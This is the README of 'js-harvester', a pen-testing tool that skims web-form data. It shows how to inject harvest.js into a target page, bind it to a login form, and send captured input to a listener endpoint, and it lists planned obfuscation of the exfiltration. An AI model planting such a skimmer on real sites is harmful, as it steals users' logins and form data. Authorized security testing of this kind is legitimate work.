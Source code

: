 # js-harvester
A tool for pen testers to use in an engagement where data must be captured from a web form.
> [!CAUTION]
> Disclaimer: Intended only for use on systems that you are legally authorized to access. 
# installation
* Requires jQuery
* Download and host script
# usage
1. Identify target page to harvest data from
3. Add harvest.js to the target page
```
<script type="text/javascript" src="harvest.js"></script>
```
4. Run a HTTP or HTTPS service to receive data from the script
6. Update the settings in harvest.js
```
//var siteId = "updateme";
//var formId = "updateme";
var bindAllFormsSwitch = true;
var formName = "loginform2";
var enableEncoding = true;
var usePost = false;
var _0x3745 = ["http","://","127.0.0.1","/harvest.php","Content-type","application/x-www-form-urlencoded","GET","POST","HEAD","PUT","DELETE","OPTIONS","PATCH"];
```
5. Listen. . .
# todo list
* ~~dynamic form binding and processing~~
* ~~support for exfiltration through configurable HTTP methods~~
* ~~use hash values to identify site and form IDs~~
* ~~ability to bind multiple forms dynamically~~
* code obfuscation
* obfuscation for data exfiltration
* remove jQuery dependencies
